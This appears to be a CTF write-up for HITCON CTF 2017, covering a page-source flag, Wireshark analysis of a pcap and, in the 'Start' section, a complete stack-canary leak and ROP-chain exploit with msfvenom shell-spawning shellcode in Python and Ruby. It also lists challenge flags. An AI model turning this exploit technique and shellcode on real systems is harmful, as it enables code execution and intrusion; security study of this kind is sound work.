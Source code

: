 ```yaml
---
layout: post
title: HITCON CTF 2017
tags: [ctfwriteups]
---
```


We solved 4 challenges in this CTF.
- misc
  - [Visual Acuity](#visual-acuity)
  - [Data & Mining](#data-and-mining)
- web
  - [BabyFirst Revenge](#babyfirst-revenge)
- pwn
  - [Start](#start)

## Visual Acuity 

> Welcome to HITCON CTF 2017  
> Your flag is here:

Below the challenge prompt was a `<div>` with a very large letter `h` and presumably some other text. Inspecting the page source leads you to the flag.

![Flag for Visual Acuity](/assets/hitcon2017/visualacuity.png)

The flag is `hitcon{enjoy_our_adaptive_scoring_system}`.

## Data and Mining

> My NAS is always busy...  
> [traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng](https://xmunoz.com/ctfs/hitcon2017/traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng)

The provided file is a 230 MB pcap. Let's download the pcap and open it in wireshark. 

![Wireshark pcap](/assets/hitcon2017/wireshark.png)

The first thing to notice is that much of the traffic seems to be in a protocol called "IPA". A quick google search reveals that "IPA" stands for "GSM over IP". I don't know anything about GSM over IP, but a closer inspection of the packet data reveals that this classification might be incorrect.

![ipa packet](/assets/hitcon2017/ipa.png)

That looks like good ol' HTTP to me. Wireshark has misclassified the protocol for these packets. Disable the IPA protocol by natigating to Analyze > Enabled Protcol.

![disable ipa](/assets/hitcon2017/ipadisable.png)

This didn't appear to have the desired effect for me. To really turn off IPA, go to Edit > Preferences and in the Protocols section, set the GSM IPA TCP port to 0.

![disable ipa again](/assets/hitcon2017/ipadisable2.png)

This causes wireshark to rescan the whole packet capture, which can take a while depending on your hardware. Now the packet capture should look something like this.

![new packet capture](/assets/hitcon2017/newcapture.png)

It's now possible to follow the TCP streams and look for interesting data. To look at a particular stream, right click any packet > Follow... > TCP Stream.

![follow tcp stream](/assets/hitcon2017/followstream.png)

The flag is found in stream 42, which can be filtered for with the expression `tcp.stream eq 42`. The flag is `hitcon{BTC_is_so_expensive_$$$$$$$}`.

## BabyFirst Revenge

> Do you remember BabyFirst from HITCON CTF 2015?  
> This is the harder version!  
> http://52.199.204.34/

## Start

> Have you tried pwntools-ruby?  
> nc 54.65.72.116 31337  
> [start-7a3715a6bd61783850f9c109dbc57571.zip](/assets/hitcon2017/start-7a3715a6bd61783850f9c109dbc57571.zip)

Once connected, the server serving the `server.rb` script makes it clear that the start binary is hosted locally and that a ruby script is to be provided for it to run.

![server.rb](/assets/hitcon2017/serverrb.png)

Quickly looking over the `server.rb` script it seems to import the pwntools library - knowing this let's start reversing and creating an exploit for the `start` binary using pwntools, to hopefully later on send the script to the server.

A stack canary is put on the stack preventing us from conventional buffer overflows or similar things that tamper with the stack. 

![stack canary](/assets/hitcon2017/canary.png)

Luckily there is a way to leak the canary abusing the puts() call. Reading in 24 characters and a newline char `\n`, puts() will print the canary except the last char which is overwritten by the `\n`. Luckily, the last char of the canary is a null-byte in this case so it won't matter.


Once the canary is obtained it is a simple matter of creating the exploit. I am sure there are multiple paths to success once we control the return address, I chose to go with `mprotect()` which is a syscall allowing us to overwrite permissions on the stack, making it executable (the binary has DEP/NX enabled by default).

Using an already present function in this static binary `_dl_make_stack_executable` which is essentially a wrapper around the mprotect() syscall the stack is made executable, a payload is generated with `msfvenom` and the exploit is mounted.

Here is the initial script I wrote in python (to be ported to ruby).

```
#!/usr/bin/python2.7

import sys
from pwn import *

# Payload
payload = "A"*24 + "\n"

r = process('./start')

r.send(payload)

r.recvline() #echo

canary = struct.unpack("<Q", "\x00" + r.recv()[0:7])[0]
print "Leaked canary: " + hex(canary)

payload2 = "exit\n" + "A"*19 + struct.pack("<Q", canary) + "A"*8

payload2 += p64(0x466c09) # 0x0000000000466c09: pop rsi; ret;
payload2 += p64(0x6cbfe0) # 00000000006cbfe0 <__stack_prot>
payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret; 
payload2 += p64(0x7) # RWX Flag
payload2 += p64(0x41881b) # 0x000000000041881b: mov qword ptr [rsi], rdi; ret;

payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret
payload2 += p64(0x6cbf90) # 00000000006cbf90 <__libc_stack_end>:
payload2 += p64(0x4768a0) # 00000000004768a0 <_dl_make_stack_executable>:

# JMP RSP
payload2 += p64(0x4a554f) # 0x00000000004a554f: jmp rsp; 

# msfvenom -f python -p linux/x64/exec CMD=/bin/sh --platform linux
buf =  ""
buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
buf += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x56\x57\x48\x89\xe6\x0f\x05"

payload2 += "\x90"*20 + buf

r.send(payload2 + "\n")

r.interactive()
r.clean()
r.close()
```

Once run a shell is obtained.

![local shell](/assets/hitcon2017/local-shell.png)

Porting to ruby was somewhat of a challenge as I have little to no experience in ruby (although not much has to be changed). It is also not possible, as far as I know, to make use of the interactive pipe in this case so I chose to run single commands on the system one at a time navigating the filesystem until I could cat the flag. This is the final ruby script sent to the server, I sent it as a one-liner although I'm not sure that was necessary.

```
payload = "A"*24 + "\n" ;r = Sock.new '127.0.0.1', 31338 ;r.send(payload) ;r.recvline() ;canary = unpack("\x00" + r.recv()[0, 7], bits: 64, endian: 'little', signed: false) ;puts "Leaked canary: " + "0x" + canary.to_s(16) ;payload2 = "exit\n" + "A"*19 + p64(canary) + "A"*8 ;payload2 += p64(0x466c09) ;payload2 += p64(0x6cbfe0) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x7) ;payload2 += p64(0x41881b) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x6cbf90) ;payload2 += p64(0x4768a0) ;payload2 += p64(0x4a554f) ;buf = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"; payload2 += "\x90"*20 + buf; r.send(payload2 + "\n"); r.sendline('/bin/cat /home/start/flag'); puts r.recv()
```

And flag received!

![flag](/assets/hitcon2017/flag.png)







